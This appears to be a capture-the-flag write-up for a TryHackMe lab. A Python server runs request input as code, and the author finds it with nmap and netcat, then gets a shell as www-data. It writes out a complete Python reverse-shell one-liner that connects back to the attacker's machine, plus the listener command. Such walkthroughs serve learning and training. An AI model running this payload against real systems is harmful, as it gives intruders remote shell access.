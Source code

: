 # Fun
.Solving an easy challenge on tryhackme.com

![test](images/1.png)
![test](images/2.png)

**The challenge is to hack into a python server that when receiving a GET request from a client runs some of the content of that request as an input for the python interpreter running in the server.**

So the first step is to deploy the challenge machine in the tryhackme platform, we get the challenge machine ip address as 10.201.65.80, this is an ip from a private network, so we connect to the network of the tryhackme platform using the command 
`sudo openvpn Downloads/user.ovpn` after we ping the target so we can see that we have access to the target
`ping 10.201.65.80`

![test](images/3.png)

After seeing that we are in fact into the network  we run nmap to scan the target with the `-sV` flag to enumerate the version of the sotware running in the ports of the server. `nmap -sV 10.201.65.80` 

![test](images/4.png)

Nmap return that the target server is running ssh in port 22 and a http server in port 8000. As in the premises of the challenge is very straight forward where to look, i'm not gonna try to bruteforce the ssh and focus in the server as the foothold point.

We see that the http server is using the simplehttp python. the command to start running this kind of server in your machine is a derivation of `python3 -m http.server PORT_TO_RUN` and the fingerprint string of the responde of the http is returning error about an object not defined in the request. When access the http service in port 8000 in a browser we receive a html file saying *Try a more basic connection!*

![test](images/5.png)

So we connect using netcat a swiss army knife to handling basic network connections, we use the command
`nc 10.201.65.80 8000` (i lost the screenshot but when you connect via netcat all you type in the terminal is run by a python interpreter, so if i typed `hello` it would return `NameError: name 'hello' is not defined.`
and when typed `print("hello")` we receive *hello* as response. **Then we can conclude that this is the remote code execution flaw of the server, we can exploit this to execute arbitrary code into the server machine**.

We use a reverse shell cheat sheet online to look an one line python code to make the server spawn a shell and connects to our machine (REVERSE SHELL) writing `import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR_MACHINE_IP",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")` into the netcat connection with the target as is running a get request as python code. This code will make the server connects to our machine and connect an interactive shell of the server into our machine by port 1337, so we set our machine to listen to connections in port 1337 by using `nc -lvnp 1337` (-l is listen, -v verbone, -p port and -n no dns resolution).

![text](images/6.png)

In the nc -lvnp 1337 we receive a connection from 10.201.92.41 (our target address) and a **$** which means a input for shell, when we run `id` into this shell we received in port 1337 the output is **www-data** which is the user responsible for the http server, so we are inside the target server and running code as www-date user, which is a very low priveleged user in the target system, the next step is to realize a **privilege escalation** to achieve root into the target system, owning the target. So we have access to the target server but with the user www-data
![text](images/7.png)
